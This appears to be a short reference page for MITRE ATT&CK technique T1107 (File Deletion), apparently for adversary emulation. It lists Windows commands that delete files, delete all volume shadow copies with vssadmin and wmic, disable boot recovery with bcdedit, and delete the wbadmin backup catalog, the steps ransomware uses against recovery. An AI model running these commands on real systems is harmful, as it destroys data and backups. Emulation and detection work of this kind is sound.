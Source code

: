 # File Deletion

## MITRE ATT&CK Technique: [T1107](https://attack.mitre.org/wiki/Technique/T1107)

## cmd

    del /f filename
    rmdir example

## PowerShell

    Remove-Item –path c:\testfolder –recurse

## vssadmin

    vssadmin.exe Delete Shadows /All /Quiet


## wmic

    wmic shadowcopy delete

## bcdedit

    bcdedit /set {default} bootstatuspolicy ignoreallfailures

    bcdedit /set {default} recoveryenabled no

## wbadmin

    wbadmin delete catalog -quiet
